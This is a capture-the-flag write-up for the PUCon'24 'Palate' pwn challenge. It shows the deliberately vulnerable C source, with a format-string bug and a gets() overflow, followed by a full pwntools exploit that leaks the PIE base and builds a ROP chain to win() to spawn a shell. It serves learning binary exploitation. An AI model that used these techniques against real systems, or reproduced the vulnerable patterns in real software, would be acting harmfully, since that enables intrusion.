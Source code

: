 ```yaml
---
title: PUCon' 24 - Userspace - Palate
date: '2024-2-17'
tags: ['pucon', 'userspace', 'ctf', 'pwn', 'pie-bypass', 'printf', 'ret2win']
draft: false
summary: Utilizing Format String Vulnerability to leak the address of PIE and then a simple Ret2Win with args.
---
```


## Challenge Description

![alt text](/static/writeups/pucon24/image-25.png)

## Solution

The challenge was very simple and I managed to solve it in under 10 minutes (and also 🩸). In this challenge, we were provided with the source code i.e.:

```c:ret2win_pie.c
#include<stdio.h>
#include<stdlib.h>

// gcc ret2win_pie.c -o ret2win_pie -fno-stack-protector

__attribute__((constructor))
void ignore_me(){
	setbuf(stdin, NULL);
	setbuf(stdout, NULL);
	setbuf(stderr, NULL);
}

void win(long arg1){
	char *cmd = "/bin/sh";

	if (arg1 == 0xdeadbeefcafebabe){
		puts("Congrats!!!");
		execve(cmd, NULL, NULL);
	}

	else
		puts("Forgot ROP. That's sad :<");
}

int main(int argc, char **argv, char **environ){
	char shot[0x60];

	puts("Aim and hit the bull's eye");
	fgets(shot, sizeof(shot), stdin);
	printf(shot);

	puts("Sad you missed it. Try one more time");
	gets(shot);
}
```

Okay, so, `(thankfully)`, the challenge was not one-shot as I am VERY VERY bad with format strings. We are given a fsb, that we can use to leak the addresses from the stack and then, a simple `gets` buffer overflow to jump to `win`, whilst also providing the argument i.e. `0xdeadbeefcafebabe`.

## Leaking the PIE-base

The exploit was fairly simple. When messing around format strings, I wrote a simple cli tool in python and made a function that I very often use that generates format string patterns for me. You can find the script on this [link](https://gist.github.com/TheFlash2k/2ee4650c3fc850caceb558ef82fa9bd6) (do leave a star if you like it ;))

So, the exploit for this part was fairly, simple.

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

def create_fmt(start: int, end: int = 0, atleast: int = 10, max_len: int = -1, with_index: bool = False, specifier: str = "p", seperator: str = '|') -> bytes:
    end = start+atleast if end == 0 else end
    fmt = "{seperator}%{i}${specifier}" if not with_index else "{seperator}{i}=%{i}${specifier}"
    rt = ""
    for i in range(start, end+1): rt += fmt.format(i=i, specifier=specifier, seperator=seperator)
    if max_len <= 0: return rt.encode()
    rt = seperator.join(rt[:max_len].split(seperator)[:-1]) if rt[:max_len][-1] != specifier else rt[:max_len]
    return rt.encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")


fmt = create_fmt(1, 30, with_index=True)
io.sendlineafter(b"eye", fmt)

io.interactive()
```

Now, on running this exploit:

![alt text](/static/writeups/pucon24/image-26.png)

We passed in `30`, but the stdout only printed `uptil` 12. Let's attach GDB, and see what exactly is memory mapping as we need a `PIE` leak.

![alt text](/static/writeups/pucon24/image-27.png)

Now, what we need is a leak that corresponds to PIE, i.e. `0x56xxxxxxxx`, so. Let's change the function call:

```diff
- fmt = create_fmt(1, 30, with_index=True)
+ fmt = create_fmt(13, 22, with_index=True)
```

![alt text](/static/writeups/pucon24/image-28.png)

Let's increase this:

```diff
- fmt = create_fmt(13, 22, with_index=True)
+ fmt = create_fmt(23, 30, with_index=True)
```

![alt text](/static/writeups/pucon24/image-29.png)

Now, looking at these addresses, we can see that, the address at `27th` position corresponds to what looks like `PIE` leak. Let's see this address in GDB.

![alt text](/static/writeups/pucon24/image-30.png)

This address corresponds to the beginning of the main function.

> _NOTE_: During the compeition, I was using my laptop that had the latest version of Arch with latest libc, for this tutorial, I am using Ubuntu 20.04, and the server was also using the latest ubuntu version, so, on my laptop the offset I got was `25` and that syncronized with the remote instance. The leak was for `main` so that was constant, so; instead of `27`, I will be using `25` as my offset in all of my payloads.

So, now, we have a pie-leak. Let's align our elf as well so we can use pwntools' power easily:

```py:exploit.py
fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)
io.interactive()
```

## Finding the offset

Well, we've done this thousands of time, so, i'll just skim through this, pass random data to the first input, send cyclic pattern to the second input and check the offset:

![alt text](/static/writeups/pucon24/image-31.png)

The offset came out to be `104`. So, let's note it down.

## Ret2Win

Now, I firstly thought of just jumping past the `arg1 == 0xdeadbeefcafebabe` check however, the `cmd` was declared before this meaning, even if I could jump, I wouldn't be able to have the correct argument in the rdi register to be passed to the `execve` syscall. So, the payload for this was simple. I used `ROP` from pwntools

```py:exploit.py
rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)
```

Running this, I got the shell.

![alt text](/static/writeups/pucon24/image-33.png)

Final exploit that I used was:

```py:exploit.py
#!/usr/bin/env python3
# Author: @TheFlash2k

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()

exe = "./ret2win_pie"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

fmt = b"|%25$p|"
io.sendlineafter(b"eye\n", fmt)
main_leak = int(io.recvline().split(b'|')[1], 16)
elf.address = main_leak - elf.sym.main
info("pie @ %#x" % elf.address)

rop = ROP(elf)
payload = flat(
    cyclic(104),
    rop.rdi.address,
    0xdeadbeefcafebabe,
    rop.ret.address,
    elf.sym.win
)
io.sendlineafter(b"time\n", payload)

io.interactive()
```

Running this exploit against remote:

![alt text](/static/writeups/pucon24/image-34.png)
